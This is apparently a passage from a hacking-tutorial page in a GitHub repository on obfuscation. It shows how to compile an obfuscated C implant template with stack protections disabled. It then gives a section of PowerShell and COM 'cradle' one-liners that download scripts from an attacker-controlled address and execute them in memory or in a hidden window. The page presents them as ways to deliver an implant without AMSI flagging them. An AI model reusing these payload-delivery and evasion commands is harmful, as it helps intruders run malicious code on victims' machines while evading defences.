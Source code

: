 ![C obfuscation](http://i66.tinypic.com/xp7hoz.png)

- Obfuscate (trigraphs + del spaces + random var names) and Compile template.c<br />
`gcc -fno-stack-protector -z execstack -trigraphs template.c -o finalname`

![C obfuscation](http://i63.tinypic.com/1z1qmxf.png)
`HINT: Remmenber that the above template.c was compiled using the -trigraphs GCC switch`

---

[0] [Glosario (Index)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md#glosario-index)<br />

---

<br /><br /><br /><br />

## Download/Execution (LolBin)
This section contains onelinner crandle downloaders that for one reason or another does not trigger security applications to flag them as<br />'suspicious behaviour' like some other download/execution technics. ( example: Downloading files using certutil its now blocked by amsi<br /> and every file downloaded using powershell .DownloadFile() API its immediately scanned by amsi ). There are many crandle downloaders available that are not described in this section because amsi flag them (or the files they download) as 'suspicious things to be scanned'.<br />**`None of the crandlers described bellow will magic bypass detection, there function its to download/execute the implant.`**

<br /><br />
**Powershell Downloaders**<br />

      iwr -Uri http://192.168.1.71/hello.ps1 -OutFile $env:tmp\hello.ps1

      Invoke-WebRequest "http://192.168.1.71/hello.ps1" -OutFile "$env:tmp\hello.ps1" -PassThru;Start-Sleep 1;powershell -File $env:tmp\hello.ps1

      powershell Invoke-WebRequest -H @{"Authorization"="token 123456789012345678901234567890"} https://path/to/file.txt -OutFile $env:tmp\file.txt

      powershell -w 1 -C (NeW-Object Net.WebClient).DownloadFile('http://192.168.1.73/hello.ps1', '%tmp%\hello.ps1');powershell Start-Process -windowstyle hidden -FilePath '%tmp%\hello.ps1'
      
![rf](https://user-images.githubusercontent.com/23490060/94825488-29098b80-03fe-11eb-8ea9-1caca3ab7b4e.png)

<br /><br />
**COM Donwloaders**<br />

      $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.1.73/hello.ps1',$false);$h.send();iex $h.responseText

      $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://192.168.1.73/hello.ps1',$false);$h.send();iex $h.responseText

      $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://192.168.1.73/hello.ps1',$false);$h.send();$h.responseText > $env:tmp\hello.ps1

      $r=new-object net.webclient;$r.proxy=[Net.WebRequest]::GetSystemWebProxy();$r.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;iex $r.downloadstring('http://192.168.1.73:8080/hello.ps1');
